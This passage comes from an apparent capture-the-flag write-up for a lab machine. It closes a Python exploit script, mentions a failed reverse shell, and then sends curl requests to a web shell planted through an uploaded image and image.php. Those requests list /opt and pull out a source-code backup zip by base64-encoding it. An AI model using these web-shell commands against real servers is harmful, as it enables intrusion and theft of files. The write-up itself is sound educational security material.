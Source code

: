 ```py
            print(e)
    except KeyboardInterrupt as e:
        print('KeyboardInterrupt')


s.close()
```

This script directly gives command output

![](screenshots/script-output.png)


But there are some issue while getting reverse shell.
```bash
WARNING: Failed to daemonise. This is quite common and not fatal. Connection refused (111)
```

walking through the filesystem with web shell found a zip file in `/opt` directory.
```bash
❯ curl "http://10.10.11.135/image.php?img=images/uploads/8511adbe6698b34e753367c7f04b629a_tmple20q9e2.jpg" --data "cmd=ls -l /opt"
total 616
-rw-r--r-- 1 root root 627851 Jul 20 22:36 source-files-backup.zip
```

Downloading zip file with base64 encoding
```bash
❯ curl "http://10.10.11.135/image.php?img=images/uploads/8511adbe6698b34e753367c7f04b629a_tmple20q9e2.jpg" --data "cmd=cat /opt/source-files-backup.zip|base64 -w 0" > source-files-backup.zip.b64
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  817k    0  817k  100    48   123k      7  0:00:06  0:00:06 --:--:--  150k

❯ cat source-files-backup.zip.b64| base64 -d > source-files-backup.zip
❯ file source-files-backup.zip
source-files-backup.zip: Zip archive data, at least v1.0 to extract, compression method=store
```

Zip file contains websile source code.
```bash
❯ unzip -q source-files-backup.zip
❯ cd backup
❯ tree
.
├── admin_auth_check.php
├── auth_check.php
├── avatar_uploader.php
├── css
│   ├── bootstrap.min.css
│   └── login.css
├── db_conn.php
├── footer.php
├── header.php
├── image.php
├── images
│   ├── background.jpg
```